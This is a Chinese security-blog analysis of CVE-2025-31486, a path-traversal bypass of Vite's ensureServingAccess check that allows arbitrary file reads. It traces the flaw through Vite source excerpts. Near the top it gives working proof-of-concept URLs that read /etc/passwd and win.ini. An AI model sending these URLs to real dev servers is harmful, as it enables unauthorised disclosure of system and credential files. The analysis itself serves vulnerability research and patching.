


# Vite开发服务器任意文件读取漏洞分析复现（CVE-2025-31486）-先知社区

> **来源**: https://xz.aliyun.com/news/17730  
> **文章ID**: 17730

---

其实上文（CVE-2025-31125）中所说的未公开POC是此处31486的一种。

`svg`这种是可以打CVE-2025-31486的。在上一篇CVE的复现中我已经提到了，这里就不说了。

6.2.5修补了上述漏洞。

但是这里还有一种方法：

## bypass ensureServingAccess权限校验

这里先给出poc：

```
http://127.0.0.1:5173/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?raw

http://localhost:5173/iife/@fs/C:/Users/swordlight/main/sec/analyse/vite-6.2.4/?/../../../../../../../windows/win.ini?import&raw
```

在修复CVE-2024-45811时有引入ensureServingAccess对传入的url进行校验，这个poc就绕过了`ensureServingAccess`的校验从而使用raw语法成功读取到了文件

```
http://192.168.79.128:5173/@fs/usr/src/node_modules/vite/?/../../../../../etc/passwd?import&?raw
```



接下来我们看看流程！跟进一下`ensureServingAccesss`，只要`ensureServingAccess`为true即可绕过！

```
export function ensureServingAccess(
  url: string,
  server: ViteDevServer,
  res: ServerResponse,
  next: Connect.NextFunction,
): boolean {
  if (isFileServingAllowed(url, server)) {
    return true
  }
  if (isFileReadable(cleanUrl(url))) {
    const urlMessage = `The request url "${url}" is outside of Vite serving allow list.`
    const hintMessage = `
${server.config.server.fs.allow.map((i) => `- ${i}`).join('
')}

Refer to docs https://vite.dev/config/server-options.html#server-fs-allow for configurations and more details.`

    server.config.logger.error(urlMessage)
    server.config.logger.warnOnce(hintMessage + '
')
    res.statusCode = 403
    res.write(renderRestrictedErrorHTML(urlMessage + '
' + hintMessage))
    res.end()
  } else {
    // if the file doesn't exist, we shouldn't restrict this path as it can
    // be an API call. Middlewares would issue a 404 if the file isn't handled
    next()
  }
  return false
}
```

那么我们要如何使其return一个true呢？发现只有一个isFileServingAllowed方法有机会！

```
export function isFileServingAllowed(
  url: string,
  server: ViteDevServer,
): boolean
export function isFileServingAllowed(
  configOrUrl: ResolvedConfig | string,
  urlOrServer: string | ViteDevServer,
): boolean {
  const config = (
    typeof urlOrServer === 'string' ? configOrUrl : urlOrServer.config
  ) as ResolvedConfig
  const url = (
    typeof urlOrServer === 'string' ? urlOrServer : configOrUrl
  ) as string

  if (!config.server.fs.strict) return true
  const filePath = fsPathFromUrl(url)
  return isFileLoadingAllowed(config, filePath)
}
```

此处的关键点其实在于：

```
const filePath = fsPathFromUrl(url)
return isFileLoadingAllowed(config, filePath)
```

跟进一下`fsPathFromUrl`看看

```
export function fsPathFromUrl(url: string): string {
  return fsPathFromId(cleanUrl(url))
}
```

先清洗一下url再`fsPathFromId`一下。

```
const postfixRE = /[?#].*$/

export function cleanUrl(url: string): string {
  return url.replace(postfixRE, '')
}
```

`cleanUrl`会使用正则处理url中的第一个`?`或者`#`开始的到结尾的部分进行移除。接着我们再看看`fsPathFromId`，它的作用是将一个模块 ID（通常来自 import 语句）转换为文件系统路径（filesystem path）。

```
export const FS_PREFIX = `/@fs/`

export function fsPathFromId(id: string): string {
  const fsPath = normalizePath(
    id.startsWith(FS_PREFIX) ? id.slice(FS_PREFIX.length) : id,
  )
  return fsPath[0] === '/' || VOLUME_RE.test(fsPath) ? fsPath : `/${fsPath}`
}
```

这里解释一下`normalizePath`

* 将路径中的反斜杠 `\` 替换为正斜杠 `/`（Windows 兼容）。
* 移除多余的 `/`（如 `a//b` → `a/b`）。
* 解析相对路径符号（如 `./` 或 `../`）。

接下来我们看看isFileLoadingAllowed函数，它主要用于 **检查某个文件路径是否被允许加载**。

* `fs.strict`：若为 `false`（非严格模式），**直接允许加载所有文件**（跳过后续检查）。
* `fsDenyGlob`：一个匹配函数，检查文件路径是否命中黑名单（如敏感文件 `**/.env`、`**/node_modules/**`）。
* `safeModulePaths`：一个 `Set` 集合，存放明确允许加载的路径（如项目源码目录）。
* `fs.allow`：一个数组，包含允许的路径规则（如 `['/src', '/public']`）。
* `isUriInFilePath`：辅助函数，检查 `filePath` 是否在某个允许的路径下（如 `/src/utils.js` 匹配 `/src`）。

```
export function isFileLoadingAllowed(
  config: ResolvedConfig,
  filePath: string,
): boolean {
  const { fs } = config.server

  if (!fs.strict) return true

  if (config.fsDenyGlob(filePath)) return false

  if (config.safeModulePaths.has(filePath)) return true

  if (fs.allow.some((uri) => isUriInFilePath(uri, filePath))) return true

  return false
}
```

我们便是在此处返回true的！因为我们自己的根目录是被允许的！

```
if (fs.allow.some((uri) => isUriInFilePath(uri, filePath))) return true
```

但是通过目录验证后，后续的处理逻辑却又是使用我们原始的url进行处理。

### 跟一边poc

```
http://192.168.79.128:5173/@fs/usr/src/node_modules/vite/?/../../../../../etc/passwd?import&?raw
```

```
    try {
      url = decodeURI(removeTimestampQuery(req.url!)).replace(
        NULL_BYTE_PLACEHOLDER,
        '\0',
      )
    } catch (e) {
      return next(e)
    }
```

这里什么都没remove掉，继续跟

```
const urlWithoutTrailingQuerySeparators = url.replace(
        trailingQuerySeparatorsRE,
        '',
      )
```

然后进入到if判断中：

```
if (
        (rawRE.test(urlWithoutTrailingQuerySeparators) ||
          urlRE.test(urlWithoutTrailingQuerySeparators) ||
          inlineRE.test(urlWithoutTrailingQuerySeparators)) &&
        !ensureServingAccess(
          urlWithoutTrailingQuerySeparators,
          server,
          res,
          next,
        )
      ) {
        return
      }
```

这里在`rawRE.test`便已经为`true`，那么就会进入`ensureServingAccess`判断。这时我们的url为`/@fs/usr/src/node_modules/vite/?/../../../../../etc/passwd?import&?raw`

```
  if (isFileServingAllowed(url, server)) {
    return true
  }
```

```
const filePath = fsPathFromUrl(url)
```

经过`fsPathFromUrl`的`cleanurl`后url变成了`/@fs/usr/src/node_modules/vite/`。`fsPathFromId`可以理解为一种规范化，url还是上面那样。

接着进入了`isFileLoadingAllowed`方法，我们关注下面这段代码：

```
if (fs.allow.some((uri) => isUriInFilePath(uri, filePath))) return true
```

检查某个文件路径是否被允许加载，我们跟进`allow`看看：



继续跟进`allow`

```
  const server: ResolvedServerOptions = {
    ..._server,
    fs: {
      ..._server.fs,
      // run searchForWorkspaceRoot only if needed
      allow: raw?.fs?.allow ?? [searchForWorkspaceRoot(root)],
    },
    sourcemapIgnoreList:
      _server.sourcemapIgnoreList === false
        ? () => false
        : _server.sourcemapIgnoreList,
  }
```

看这段`allow: raw?.fs?.allow ?? [searchForWorkspaceRoot(root)]`

定义允许访问的文件系统路径列表（安全限制）。

* `raw?.fs?.allow`：如果用户显式配置了 `raw.fs.allow`，则直接使用。
* **默认值** `[searchForWorkspaceRoot(root)]`：若未配置，则自动搜索工作区根目录并设为唯一允许路径。

* `searchForWorkspaceRoot(root)`：Vite 内部函数，从项目根目录（`root`）向上查找包含 `pnpm-workspace.yaml` 或 `lerna.json` 的目录（适用于 monorepo）。
* 返回的路径会被添加到 `fs.allow` 数组中（例如 `['/Users/your/project']`）。

那么网站的路径就是默认允许的！这也是我们的poc需要用网站路径的原因，他不能是随机的！！！

然后我们就通过了`ensureServingAccess`，url以最初的poc继续往下走：

`http://192.168.79.128:5173/@fs/usr/src/node_modules/vite/?/../../../../../etc/passwd?import&?raw`

```
if (
        req.headers['sec-fetch-dest'] === 'script' ||
        isJSRequest(url) ||
        isImportRequest(url) ||
        isCSSRequest(url) ||
        isHTMLProxy(url)
      )
```

毋庸置疑，通过了`isImportRequest`，然后进入：

```
url = removeImportQuery(url)
```

```
const importQueryRE = /(\?|&)import=?(?:&|$)/

export function removeImportQuery(url: string): string {
  return url.replace(importQueryRE, '$1').replace(trailingSeparatorRE, '')
}
```

去除掉了`import`

变成了`/@fs/usr/src/node_modules/vite/?/../../../../../etc/passwd??raw`

然后进入了

```
url = unwrapId(url)
```

这里没有变化，继续往下看。接着进入了`transformRequest`，再进入`doTransform`，然后又进行了一次`removeTimestampQuery`，没有变化。

```
let module = await environment.moduleGraph.getModuleByUrl(url)
```

获得了id

接着进入`loadAndTransform`

```
  const result = loadAndTransform(
    environment,
    id,
    url,
    options,
    timestamp,
    module,
    resolved,
  )
```

```
const loadResult = await pluginContainer.load(id)
```

然后我们进入`load()`

```
    async load(id) {
      if (id[0] === '\0') {
        // Rollup convention, this id should be handled by the
        // plugin that marked it with \0
        return
      }

      // raw requests, read from disk
      if (rawRE.test(id)) {
        const file = checkPublicFile(id, config) || cleanUrl(id)
        this.addWatchFile(file)
        // raw query, read file and return as string
        return `export default ${JSON.stringify(
          await fsp.readFile(file, 'utf-8'),
        )}`
      }

      if (!urlRE.test(id) && !config.assetsInclude(cleanUrl(id))) {
        return
      }

      id = removeUrlQuery(id)
      let url = await fileToUrl(this, id)

      // Inherit HMR timestamp if this asset was invalidated
      if (!url.startsWith('data:') && this.environment.mode === 'dev') {
        const mod = this.environment.moduleGraph.getModuleById(id)
        if (mod && mod.lastHMRTimestamp > 0) {
          url = injectQuery(url, `t=${mod.lastHMRTimestamp}`)
        }
      }

      return {
        code: `export default ${JSON.stringify(encodeURIPath(url))}`,
        // Force rollup to keep this module from being shared between other entry points if it's an entrypoint.
        // If the resulting chunk is empty, it will be removed in generateBundle.
        moduleSideEffects:
          config.command === 'build' && this.getModuleInfo(id)?.isEntry
            ? 'no-treeshake'
            : false,
        meta: config.command === 'build' ? { 'vite:asset': true } : undefined,
      }
    },
```

通过了`rawRE.test`，没有防御目录穿越，导致了任意文件读取！
